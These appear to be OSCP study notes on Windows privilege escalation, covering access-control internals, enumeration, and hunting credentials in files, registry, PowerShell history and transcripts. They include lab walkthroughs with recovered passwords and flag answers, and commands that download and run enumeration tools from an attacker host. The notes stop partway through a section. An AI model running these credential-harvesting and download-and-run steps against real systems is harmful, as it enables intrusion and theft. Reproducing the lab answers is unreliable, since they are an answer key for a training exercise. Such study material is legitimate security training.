# Module 17: Windows Privilege Escalation

## Tags
#OSCP #Module17 #WindowsPrivesc #PrivilegeEscalation #SID #AccessToken #UAC #MIC #IntegrityLevel #Enumeration #WinPEAS #PowerUp #SharpUp #ServiceBinaryHijacking #DLLHijacking #UnquotedServicePath #ScheduledTasks #KernelExploit #SeImpersonatePrivilege #SigmaPotato #JuicyPotato #PrintSpoofer #NamedPipes #Mimikatz #icacls #PSReadline #PowerShellTranscription #WMIC #Windows #SeDebugPrivilege #SeTakeOwnershipPrivilege #SeBackupPrivilege #SeLoadDriverPrivilege #SeRestorePrivilege #BackupOperators #EventLogReaders #DnsAdmins #PrintOperators #ServerOperators #UACBypass #HiveNightmare #CVE202136934 #PrintNightmare #CVE20211675 #MS16032 #MS10092 #Sherlock #findstr #DPAPI #SecureString #StickyNotes #LaZagne #SharpChrome #SessionGopher #mRemoteNG #Restic #FirefoxCookies #Pillaging #CitrixBreakout #SCFAttack #accesschk #ProcDump #dnscmd #AppLocker #iwr #certutil #bitsadmin #FileTransfers #PwDump8

---

## **Why This Module Matters**

Getting a shell is only half the battle. Most initial footholds on Windows land you as an unprivileged user -- you can't read other users' files, you can't run Mimikatz, you can't touch sensitive configuration. Privilege escalation is how you go from "a shell" to "the machine."

This module covers the full Windows privesc toolkit: understanding how Windows actually controls privilege (so you know what you're attacking), manually enumerating a target to find vectors, and then four concrete attack classes: sensitive information, service binary hijacking, DLL hijacking, unquoted service paths, scheduled tasks, kernel exploits, and SeImpersonatePrivilege abuse.

The enumeration section matters as much as the exploits. Experienced pentesters know that most Windows privesc succeeds not through a kernel zero-day but through a misconfigured service, a password in a text file, or a stale PowerShell transcript that nobody cleared. Learn the enumeration methodology cold.

---

## 17.1. Enumerating Windows

### 17.1.1. Understanding Windows Privileges and Access Control Mechanisms

Windows has four interlocking systems that control who can do what. You need to understand all four to make sense of what you're attacking.

#### 1. Security Identifiers (SIDs)

Every principal (user, group, computer) gets a unique SID. Windows uses ONLY the SID for access control -- usernames are just for display. The SID format:

```
S-R-X-Y

S     = literal "S"
R     = revision (always 1)
X     = identifier authority (5 = NT Authority, the common case for users/groups)
Y     = sub-authorities: domain identifier + RID (Relative Identifier)
```

Example: `S-1-5-21-1336799502-1441772794-948155058-1001`
- Authority: NT Authority (5)
- Domain: `21-1336799502-1441772794-948155058` (this machine's local domain)
- RID: 1001 -- second local user created (RID starts at 1000 for standard users)

**Well-known SIDs** (RID under 1000, refer to built-in principals):

| SID | Principal |
|---|---|
| S-1-0-0 | Nobody |
| S-1-1-0 | Everyone |
| S-1-5-11 | Authenticated Users |
| S-1-5-18 | Local System (NT AUTHORITY\SYSTEM) |
| S-1-5-`domain`-500 | Built-in Administrator |

SIDs for local accounts/groups are generated by the Local Security Authority (LSA). For domain accounts, they're generated on a Domain Controller. A SID never changes after creation.

#### 2. Access Tokens

When a user authenticates, Windows generates an **access token** and assigns it to that session. Every process and thread the user starts gets this token. The token contains:
- User's SID
- SIDs of all groups the user is in
- List of privileges (SeDebugPrivilege, SeShutdownPrivilege, etc.)
- Integrity level (see below)

Two token types:
- **Primary token**: assigned to a process; defines what the process itself can do
- **Impersonation token**: a thread can temporarily adopt a *different* security context. The thread interacts with objects as if it were the impersonated user, not the process owner. This is how services authenticate clients, and it's also what SeImpersonatePrivilege exploits.

> 🔍 **Worth remembering generally:** `token::elevate` in Mimikatz acquires a SYSTEM *impersonation* token, not a primary token. On Windows Server 2022, SAM registry access checks the primary process token, so a SYSTEM impersonation token isn't sufficient for `lsadump::sam`. That's why the schtask workaround in [[16. Password Attacks#16.3.2. Passing NTLM|Module 16]] was needed.

#### 3. Mandatory Integrity Control (MIC)

On top of SID-based access control, Windows enforces **integrity levels**. Every process and object has an integrity level. Lower-integrity processes cannot modify higher-integrity objects, even if the ACL says they have permission.

Five levels, in order:

| Level | Who uses it |
|---|---|
| **System** | LSASS, Winlogon, other trusted system processes |
| **High** | Elevated admin processes (after UAC prompt) |
| **Medium** | Standard users and un-elevated admins (the default) |
| **Low** | Sandboxed processes (browsers in some configs) |
| **Untrusted** | Rarely used |



Check integrity levels:
```powershell
whoami /groups              # shows current user's integrity level
icacls <file>               # shows required integrity on a file/object
# Use Process Explorer to see per-process integrity level
```

> 🔍 **Worth remembering generally:** even if a user is a member of the Administrators group, their processes default to Medium integrity. To run at High integrity (and do things like write to system files), they need to go through a UAC prompt. This is why Mimikatz fails from a non-elevated shell even as a local admin.

#### 4. User Account Control (UAC)

UAC is the mechanism that enforces the "even admins run restricted by default" behaviour. When an admin user logs in, Windows generates **two tokens**:
1. **Filtered admin token** (standard user-like, Medium integrity) -- used for everything by default
2. **Full admin token** (High integrity) -- only activated when the user explicitly accepts a UAC prompt



> 🔍 **Worth remembering generally:** UAC is not a security boundary between users -- it's a self-protection mechanism for admins to avoid accidentally running things at full privilege. It can be bypassed by various techniques (UAC bypass exploits). The goal of a UAC bypass is to get from Medium to High integrity without triggering the prompt.

**Lab status: ✅ Completed** (Q1-Q2 pure-recall):

| Question | Answer |
|---|---|
| What is the RID of the first standard user? | **1000** -- RIDs start at 1000 for standard principals; the example in Listing 2 shows RID 1001 is the second local user, so the first is 1000 |
| Answer with true or false: An access token is generated when a user is created and is immutable. | **False** -- a token is generated when a user *authenticates* (logs on), not when the account is created; and a new token is generated for each logon session, so it changes per login |

#### Tags: #SID #AccessToken #UAC #MIC #IntegrityLevel #Windows #Module17

---

### 17.1.2. Situational Awareness

Before attempting any privesc, enumerate everything. The goal is a clear picture of the machine: who's on it, what's running, what's reachable, and what's installed. Skipping this step is how you miss the plaintext password in a text file.

**Seven things to always grab:**

```
1. Username and hostname
2. Group memberships of current user
3. All users and groups on the system
4. OS version and architecture
5. Network information (interfaces, routes, connections)
6. Installed applications
7. Running processes
```

#### Commands

```cmd
REM Username and hostname
whoami
whoami /groups           REM Group memberships + integrity level + SIDs
whoami /priv             REM Assigned privileges (SeDebugPrivilege etc.)

REM OS, version, architecture
systeminfo               REM Full system info including hotfixes

REM Network
ipconfig /all            REM All interfaces, IPs, DNS, DHCP status
route print              REM Routing table (look for other networks)
netstat -ano             REM Active connections: -a all, -n no DNS, -o show PID
```

```powershell
# Users and groups
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember Administrators
Get-LocalGroupMember "Remote Desktop Users"
Get-LocalGroupMember "Remote Management Users"
net user <username>                          # Full detail on one user

# Installed apps (32-bit and 64-bit registries)
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
# Also check: C:\Program Files, C:\Program Files (x86), C:\Users\<user>\Downloads

# Running processes
Get-Process

# Running services (use RDP/interactive logon -- Get-CimInstance fails as non-admin over WinRM/bind shell)
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

> 🔧 **Technique:** `Get-CimInstance` and `Get-Service` return "permission denied" for non-admin users when connecting via WinRM or a bind shell (network logon). Switch to RDP (interactive logon) to enumerate services as a non-admin user.

> 🔍 **Worth remembering generally:** hostname context matters. `CLIENTWK220` → probably a workstation, lower security. `WEB01` or `MSSQL01` → server, higher value but often more locked down. `DC01` → domain controller, highest value.

**What to look for from `whoami /groups`:**
- Any custom groups with "admin" in the name
- `BUILTIN\Remote Desktop Users` → can RDP in
- `BUILTIN\Remote Management Users` → can use WinRM/evil-winrm
- `BUILTIN\Backup Operators` → can read ANY file (even without ACL permission)

**What to look for from user listing:**
- Accounts with "admin" in the name (likely privileged accounts of regular users)
- BackupAdmin/BackupUsers → backup solutions have extensive filesystem permissions
- Disabled Administrator account → note it, doesn't mean other admins aren't present

**What to look for from `netstat -ano`:**
- Local-only ports (127.0.0.1) → services you can only reach from the machine itself
- Port 3306 (MySQL), 1433 (MSSQL), 5432 (Postgres) → may have weak credentials
- Multiple active RDP sessions → other users connected, Mimikatz after privesc could get their creds

> 📸 Screenshot: `whoami /groups` output showing group memberships and current integrity level
> 📸 Screenshot: `Get-LocalGroupMember Administrators` output showing all local admins
> 📸 Screenshot: `netstat -ano` showing all listening ports and their PIDs

**Lab status: ✅ Completed**

**VM #1 (CLIENTWK220, bind shell port 4444):**
- Remote Management Users (besides steve): **daveadmin**
- Installed app flag (hidden in `(default)` value of fake `flag` registry key under `HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\flag`): **`OS{c3bd7c52b252cd6b3a6a0c19f6c722c2}`**
- Key finding: flag had no `DisplayName` field; `| select displayname` would have missed it entirely -- always dump all properties
- Notable apps found: FileZilla 3.63.1 (DLL hijack target), KeePass 2.51.1, XAMPP 7.4.29 (service binary hijack target)

**VM #2 (CLIENTWK221, RDP as mac/IAmTheGOATSysAdmin!):**
- Other Administrators besides offsec and Administrator: **Admin**, cloudbase-init, **roy**
- Non-standard process: `NonStandardProcess.exe` at `C:\Users\mac\AppData\Roaming\SuperCompany\`
- Flag in that directory: **`OS{858962b1402052c68475c4339458ccd1}`**

#### Tags: #Enumeration #WinPEAS #situationalAwareness #whoami #systeminfo #netstat #Module17

---

#### 17.1.2.1. AppLocker Policy Enumeration

AppLocker restricts which executables, scripts, and DLLs can run. Check before dropping tools:

```powershell
# See effective rules (what AppLocker actually blocks)
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
# Look for Action: Deny entries — PathConditions shows the blocked binary path
```

Key fields: `PathConditions` = the blocked path. `Action = Deny` confirms a block rule, not allow. If `powershell_ise.exe` is blocked, use a regular PowerShell session instead.

> 🔍 **Worth remembering generally:** AppLocker blocks by path, hash, or publisher. Path blocks are the weakest -- a binary placed in a different directory than the rule specifies still runs. If `C:\Windows\System32\*.exe` is allowed and `C:\Tools\` isn't, your payload can run from `C:\Windows\Temp\`.

#### 17.1.2.2. Session and User Awareness

```cmd
:: Logged-in users and session types
query user
:: Columns: USERNAME, SESSIONNAME, ID, STATE, IDLE TIME, LOGON TIME
:: Session types: rdp-tcp#X = RDP remote, console = physical/hypervisor

:: ARP cache — other reachable hosts on the segment
arp -a
:: Useful for subnet discovery without active scanning
```

> 🔍 **Worth remembering generally:** a `console` session type means the user is physically at the machine or in a hypervisor console. Their processes can be interacted with differently than an RDP session, and credential theft via LSASS or process injection may behave differently in each context.

**Lab Q&A (WPE.1):**

| Q | Answer |
|---|---|
| Second NIC IPv4 (pivot target) | **172.16.20.45** |
| AppLocker-blocked binary | **powershell_ise.exe** |

#### Tags: #Enumeration #WinPEAS #situationalAwareness #whoami #systeminfo #netstat #AppLocker #queryUser #Module17

---

### 17.1.3. Hidden in Plain View

Users store passwords in text files more than you'd think. Before attempting any technical privesc, spend a few minutes searching the filesystem for credentials. This works surprisingly often and requires zero exploits.

**Key insight:** every time you gain access as a new user, restart the search from scratch. The cyclical nature of a pentest means new user = new permissions = new files accessible. What dave couldn't read, steve can. What steve couldn't read, backupadmin can.

#### Searching for Sensitive Files

```powershell
# KeePass databases
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

# Config files (XAMPP, Apache, any app)
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

# Documents in user home directories
Get-ChildItem -Path C:\Users\<user>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# Broad credential search across the whole drive (slow)
Get-ChildItem -Path C:\ -Include *.txt,*.ini,*.config,*.xml -File -Recurse -ErrorAction SilentlyContinue
```

> 🔍 **Worth remembering generally:** `-ErrorAction SilentlyContinue` is essential -- without it, access denied errors on system directories flood the output and obscure the results you care about.

**High-value targets to check:**
- `C:\xampp\passwords.txt` -- XAMPP ships with a default passwords file (check if modified from defaults)
- `C:\xampp\mysql\bin\my.ini` -- MySQL config, often contains plaintext passwords
- `C:\Users\<user>\Desktop\*.txt` -- people leave notes on their desktop
- `C:\Users\<user>\AppData\` -- application configs, browser-saved credentials
- `C:\Users\Public\` -- shared across all users, often overlooked

**The chain in the CLIENTWK220 example:**
```
dave (bind shell)
  → asdf.txt on Desktop: steve's password securityIsNotAnOption++++++
  → (log in as steve via RDP)
steve
  → C:\xampp\mysql\bin\my.ini (no access as dave): MySQL password admin123admin123!
  → "backupadmin Windows password for backup job" comment in the file
  → (runas backupadmin from GUI)
backupadmin (local admin)
```

```powershell
# Using credentials in Runas (requires GUI access -- RDP session)
runas /user:backupadmin cmd
# Enter password at prompt

# Without GUI: WinRM (if user is in Remote Management Users)
evil-winrm -i <target-ip> -u <username> -p "<password>"
# Or: RDP if user is in Remote Desktop Users
# Or: schtask with /ru /rp (seen in Module 16 for non-interactive execution)
```

> 🔧 **Technique:** `runas` requires a GUI to enter the password interactively -- the password prompt doesn't accept input in a bind shell, WinRM, or non-interactive session. If you don't have RDP, check if the target user can connect via WinRM or RDP instead. If neither, schtasks `/ru <user> /rp <password>` runs a command as that user non-interactively.

> 🔍 **Worth remembering generally:** passwords in config files are often reused everywhere: MySQL, Windows account, FTP credentials, web app login. When you find a password in a file, try it against every account and service you know about before moving on.

> 📸 Screenshot: `Get-ChildItem` finding asdf.txt on dave's desktop and the `cat` output revealing steve's password
> 📸 Screenshot: `type C:\xampp\mysql\bin\my.ini` showing the plaintext MySQL password and the backupadmin comment

**Lab status: ✅ Completed (VM #1 and VM #2)**

**VM #1 (CLIENTWK220, bind shell port 4444):**
- dave's Desktop → `asdf.txt`: meeting notes containing steve's password `securityIsNotAnOption++++++`
- evil-winrm as steve → `C:\xampp\mysql\bin\my.ini`: comment says "backupadmin Windows password for backup job", password `admin123admin123!`
- backupadmin NOT in Remote Management Users or Remote Desktop Users → WinRM and RDP both blocked
- Workaround: schtasks `/ru backupadmin /rp "admin123admin123!"` from steve's WinRM session to run as backupadmin non-interactively, output redirected to `C:\Users\steve\flag_out.txt`
- Flag: **`OS{b67353ae86bde2f8d1844c7288fa58af}`**

- RDP as steve → `C:\Users\steve\Contacts\logins.txt`: web login creds for `https://myjobsucks.fr33lancers.com`, password: **`thisIsWhatYouAreLookingFor`**

**VM #2 (CLIENTWK221, RDP as mac / IAmTheGOATSysAdmin!):**
- `Get-ChildItem -Path C:\Users\ -Include *.ini,...` → `C:\Users\Public\Documents\install.ini` (376 bytes)
- File comment: `# They don't know anything about computers!!`, then a base64-encoded UTF-16LE blob
- Decoded with `[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String(...))`:
  ```json
  {
    "boolean": true,
    "admin": false,
    "user": {
      "name": "richmond",
      "pass": "GothicLifeStyle1337!"
    }
  }
  ```
- `runas /user:richmond cmd` → prompted for password → new cmd window as `clientwk221\richmond`
- `whoami` confirmed: `clientwk221\richmond`
- Flag: **`OS{d34310dc18bf3ccbb9ee6736d28e4dfc}`** at `C:\Users\richmond\Desktop\flag.txt`

> 🔍 **Worth remembering generally:** encoded content (base64 UTF-16LE) in a world-readable Public file is a classic Windows "hidden in plain view" pattern. The `[System.Text.Encoding]::Unicode` decoder handles the null-byte padding that trips up UTF-8 decoders.

> 📸 Screenshot: `type C:\Users\Public\Documents\install.ini` showing the comment and base64 blob
> 📸 Screenshot: decoded JSON output revealing richmond's credentials
> 📸 Screenshot: `whoami` as richmond + `type` of flag.txt

#### Tags: #SensitiveFiles #PasswordInPlaintext #Base64 #FileSearch #GetChildItem #Runas #UTF16LE #Module17

---

#### 17.1.3.1. findstr Credential Hunting

```powershell
:: Search common config file types for "password"
cd C:\Users
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.ps1
:: /S = recursive, /I = case-insensitive, /M = print only filenames

:: Dig into any hit:
type .\Public\Documents\settings.xml
:: May contain: <password>Pr0xyadm1nPassw0rd!</password>

:: Maven/Ant config (common in dev environments):
type .\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

:: Registry sweep for stored passwords
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

:: Unattended install answer files (often contain admin plaintext)
type C:\Windows\Panther\unattend.xml
type C:\Windows\Panther\Unattend\Unattend.xml
```

> 🔍 **Worth remembering generally:** `findstr /SIM` is the fastest single-command sweep for credentials. `/S` recurses, `/I` is case-insensitive, `/M` prints only filenames (not the matching lines) for a quick triage list; re-run without `/M` on specific hits to see the content.

#### 17.1.3.2. Encrypted PowerShell Credentials (SecureString)

`Export-Clixml` creates DPAPI-encrypted credential files tied to the current user+machine. If you ARE that user on that machine, you can decrypt them:

```powershell
:: Decrypt a pass.xml credential file (only works as the user who created it)
$credential = Import-Clixml -Path C:\Users\bob\AppData\Roaming\pass.xml
$credential.GetNetworkCredential().password
:: Outputs the plaintext password
```

> 🔧 **Technique:** DPAPI binds the encryption key to the user's profile and machine. The decryption happens transparently as long as you're running as that user. Even if the file is copied to another machine or another user tries to decrypt it, they get a `key not valid for use in specified state` error.

#### 17.1.3.3. Windows Sticky Notes (plum.sqlite)

Sticky Notes stores its data in a SQLite database readable by the note owner. Credentials pasted into notes persist here:

```powershell
:: Navigate to PSSQLite tools directory
cd C:\Tools\PSSQLite
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PSSQLite.psd1

:: Query the sticky notes database
$db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
:: Output lines like: \id=... bob_adm:1qazXSW@3edc!
```

> 🔍 **Worth remembering generally:** the Sticky Notes database is always `plum.sqlite` at the path above. It's readable by the note owner without elevation. The `\id=...` prefix is formatting metadata; the credential follows it.

**Lab Q&A (WPE.16-17):**

| Q | Answer |
|---|---|
| Credential in Maven settings.xml | **Pr0xyadm1nPassw0rd!** |
| Flag from decrypted pass.xml | **3ncryt10n_w0nt_4llw@ys_s@v3_y0u** |
| Credential from Sticky Notes plum.sqlite | **1qazXSW@3edc!** (bob_adm) |

#### Tags: #SensitiveFiles #PasswordInPlaintext #Base64 #FileSearch #GetChildItem #Runas #UTF16LE #findstr #SecureString #DPAPI #StickyNotes #plumSQLite #CredentialHunting #Module17

---

### 17.1.4. Information Goldmine PowerShell

As enterprises added PowerShell logging to detect attacks, they accidentally created a treasure trove for attackers. Two mechanisms to know:

**PowerShell Transcription** ("over-the-shoulder transcription") -- records everything displayed in a PowerShell window: commands typed, output shown. Saved to a file. Location is configurable -- check home directories, `C:\Users\Public\`, or network shares.

**Script Block Logging** -- records the full content of every script block executed, even deobfuscated/decoded. Events go to the Windows Event Log (`Microsoft-Windows-PowerShell/Operational`, Event ID 4104). Visible in Event Viewer.

Both exist because defenders want audit trails. For attackers, they contain admin commands with plaintext passwords.

#### PSReadline History

PowerShell v5+ includes PSReadline, which saves command history to a file independently of the session. `Clear-History` clears the in-session history (`Get-History`) but does NOT clear the PSReadline file. Most admins don't know this.

```powershell
# Check current session history (usually empty if admin used Clear-History)
Get-History

# Get the PSReadline history file path
(Get-PSReadlineOption).HistorySavePath
# Default: C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Read it
type C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
# OR shorthand for current user:
type (Get-PSReadlineOption).HistorySavePath
```

**What to look for in PSReadline history:**
- `Register-SecretVault` / `Set-Secret` -- KeePass/secret vault with plaintext password in the command
- `ConvertTo-SecureString "plaintext"` -- admin building a credential object; the plaintext shows in the history
- `Enter-PSSession -ComputerName ... -Credential $cred` -- WinRM remote session (check for associated `$cred` creation nearby)
- `Start-Transcript -Path "..."` -- tells you exactly where a transcript file is saved

#### Transcript Files

```powershell
# If PSReadline history shows Start-Transcript, read the transcript file
type C:\Users\Public\Transcripts\transcript01.txt
# Contains: all commands AND output from that session, in order
```

A transcript started just before credentials are entered will contain those credentials in plaintext. The example from CLIENTWK220:

```powershell
# Commands visible in the transcript (not in history):
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

These three lines give you the username (`daveadmin`) and password (`qwertqwertqwert123!!`) in plaintext. Connect with:

```bash
# evil-winrm -- more reliable than Enter-PSSession from a bind shell
# Escape ! in bash with \!
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```

> 🔧 **Technique:** creating a `PSSession` from within a bind shell can produce unexpected behavior (commands execute but return no output). Use `evil-winrm` from Kali instead -- it provides a reliable interactive shell via WinRM without the bind shell interference.

> 🔍 **Worth remembering generally:** to check if Script Block Logging is enabled, open Event Viewer on the target → Applications and Services Logs → Microsoft → Windows → PowerShell → Operational. Event ID 4104 contains the logged script blocks. This requires GUI access (RDP) or elevated access to query the event log remotely.



> 📸 Screenshot: PSReadline history file contents showing the `Set-Secret` command with plaintext KeePass password
> 📸 Screenshot: Transcript file showing the `ConvertTo-SecureString` and `New-Object PSCredential` commands
> 📸 Screenshot: evil-winrm connected as daveadmin after extracting creds from transcript

**Lab status: ✅ Completed (VM #1 and VM #2)**

**VM #1 (CLIENTWK220, bind shell port 4444):**
- `nc 192.168.158.220 4444` → shell as `dave`
- PSReadline history: `type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
  - Found: `Set-Secret -Name "Server02 Admin PW" -Secret "paperEarMonitor33@" -Vault pwmanager` (KeePass password in plaintext)
  - Found: `Start-Transcript -Path "C:\Users\Public\Transcripts\transcript01.txt"` (transcript path)
  - `Clear-History` was run, but PSReadline file survived it (key lesson)
- Transcript: `type C:\Users\Public\Transcripts\transcript01.txt`
  - Contains: `$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force`
  - Contains: `$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)`
- Credentials recovered: **daveadmin / qwertqwertqwert123!!**
- `evil-winrm -i 192.168.158.220 -u daveadmin -p 'qwertqwertqwert123!!'` → shell as daveadmin
- Flag: **`OS{24476ccf8a8b02789587efeaaff171ec}`** at `C:\Users\daveadmin\Desktop\flag.txt`

**Script Block Logging (RDP as daveadmin → Event Viewer):**
- Path: Applications and Services Logs → Microsoft → Windows → PowerShell → Operational
- Filter: Event ID 4104 → 8 Verbose + 7 Warning events (most are Windows SDIAG diagnostic scripts, noise)
- PowerShell query to cut through the noise:
  ```powershell
  Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Id -eq 4104} | Select-Object -ExpandProperty Message | Select-String -Pattern "password|Password|SecureString|Credential|secret|Secret"
  ```
- Hit: an `iwr` command with a Basic auth header, password visible in plaintext before encoding:
  ```powershell
  iwr -uri http://192.168.50.120 -Headers @{ Authorization = "Basic " +
  [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("dave:ThereIsNoSecretCowLevel1337"))
  }
  ```
- **Password recovered: `ThereIsNoSecretCowLevel1337`** (dave's credentials sent to an internal server)

> 🔍 **Worth remembering generally:** `Clear-History` only clears `Get-History` (the in-session buffer). The PSReadline file (`ConsoleHost_history.txt`) is a separate persistent store that survives `Clear-History`, logout, and reboots. Most sysadmins don't know this distinction. Always check both.

> 🔍 **Worth remembering generally:** transcription started before a `Enter-PSSession` with `$cred` captures the full credential construction, `ConvertTo-SecureString` with the plaintext string is right there in the file. The transcript records what was typed AND what was output, in order.

> 🔍 **Worth remembering generally:** Script Block Logging captures source code *before* execution, so even when a script tries to hide a password by base64-encoding it (e.g. for a Basic auth header), the plaintext string appears verbatim in Event ID 4104. Encoding after the fact doesn't hide it from the log.

> 📸 Screenshot: PSReadline history file showing `Set-Secret` with KeePass password and `Start-Transcript` path
> 📸 Screenshot: transcript file showing `ConvertTo-SecureString "qwertqwertqwert123!!"` and PSCredential lines
> 📸 Screenshot: evil-winrm shell as daveadmin + flag.txt contents
> 📸 Screenshot: Event Viewer filtered to ID 4104, PowerShell query output showing `dave:ThereIsNoSecretCowLevel1337` in the iwr Basic auth block

**VM #2 (CLIENTWK221, RDP as mac / IAmTheGOATSysAdmin!):**
- `type (Get-PSReadlineOption).HistorySavePath` → flag was sitting directly in the PSReadline history as a previously-typed command
- Someone had pasted/typed the flag string directly into the PowerShell prompt at some point. PSReadline logged it like any other input
- Flag: **`OS{17c49c88efb309356ac36871cf778957}`**

> 🔍 **Worth remembering generally:** PSReadline doesn't just log commands that run successfully, it logs everything typed, including accidental pastes, mistyped commands, and raw strings entered into the prompt. A sysadmin pasting a password into the wrong window gets it permanently saved to the history file.

#### Tags: #PSReadline #PowerShellHistory #PowerShellTranscription #ScriptBlockLogging #EvilWinRM #Module17

---

### 17.1.5. Automated Enumeration

Manual enumeration takes time. winPEAS runs all of the above automatically and outputs a colour-coded report. Essential for time-limited real-world assessments; used alongside manual work in labs (tools miss things that manual searching catches).

```bash
# On Kali: copy the 64-bit binary and serve it
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```

```powershell
# On target: download and run
iwr -uri http://<kali-ip>/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```

**winPEAS colour legend:**
- 🔴 **Red** -- special privilege or misconfiguration (investigate)
- 🟢 **Green** -- protection enabled or good config (safe, note it)
- Cyan -- active users
- Blue -- disabled users

**Key sections to review in winPEAS output:**
- `Basic System Information` -- OS version, architecture, domain join (note: winPEAS misidentified Win11 as Win10 in the example -- never trust tool output blindly)
- `PS default transcripts history` -- list of transcript files (but can miss some locations)
- `Users` -- users, groups, password policies at a glance
- `Checking for DPAPI Master Files` -- DPAPI-encrypted secrets (DPAPI = Data Protection API, Windows' built-in mechanism for encrypting sensitive data tied to a specific logged-in user; credential manager entries, browser-saved passwords, and certain app configs are the common examples; the masterkey files are what decrypt them, so owning a user's masterkeys effectively means owning everything they've encrypted)
- `Looking for possible password files` -- text files that might contain credentials
- `Services` -- services with weak binary permissions (same as Get-ModifiableServiceFile)
- `Scheduled Tasks` -- tasks running as higher-privileged users
- `Installed Applications` -- via registry

**PowerUp.ps1** -- more targeted than winPEAS for service-related privesc:

```powershell
# Download and import
iwr -uri http://<kali-ip>/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
